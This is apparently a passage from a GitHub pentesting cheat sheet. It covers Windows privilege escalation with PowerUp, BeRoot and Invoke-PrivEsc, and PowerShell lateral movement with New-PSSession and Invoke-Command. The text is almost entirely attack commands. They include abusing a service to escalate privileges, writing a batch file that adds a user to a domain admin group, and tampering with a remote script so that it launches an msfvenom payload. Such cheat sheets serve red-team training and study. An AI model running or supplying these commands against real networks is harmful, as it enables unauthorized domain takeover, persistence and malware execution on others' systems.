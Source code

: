 ##### PowerUp

```powershell
Invoke-Allchecks
Invoke-ServiceAbuse -Name '<ServiceName>' -UserName '<domain>\<our_user>'
```

##### BeRoot is an executable

```powershell
.\beRoot.exe
```

##### Privesc

```powershell
Invoke-PrivEsc
```

# IV. Lateral Movement

##### Cmdlets [ `New-PSSession` ]

```powershell
# Connect to a PS-Session of a remote user
Enter-PSSession -Computername dcorp-adminsrv.abc.xyz.local

# Execute Stateful commands using `Enter-PSSession` ( persistence )
$sess = New-PSSession -Computername dcorp-adminsrv.abc.xyz.local
Enter-PSSession -Session $sess

[dcorp-adminsrv.abc.xyz.local]:PS> $proc = Get-Process
[dcorp-adminsrv.abc.xyz.local]:PS> exit

Enter-PSSession -Session $sess

[dcorp-adminsrv.abc.xyz.local]:PS> proc
Will list current process
```

##### Cmdlets [ `Invoke-Command` ]

```powershell
# Execute Stateful commands using Invoke-Command ( persistence )
$sess = New-PSSession -Computername dcorp-adminsrv.abc.xyz.local
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}

# Display allowed commands we can execute on remote machine
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {get-command}

# Write File using `ScriptBlock`
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}

# Edit file using `ScriptBlock`
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\msfvenom.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred

# Command execution using command and `ScriptBlock`
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -command {whoami}
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
```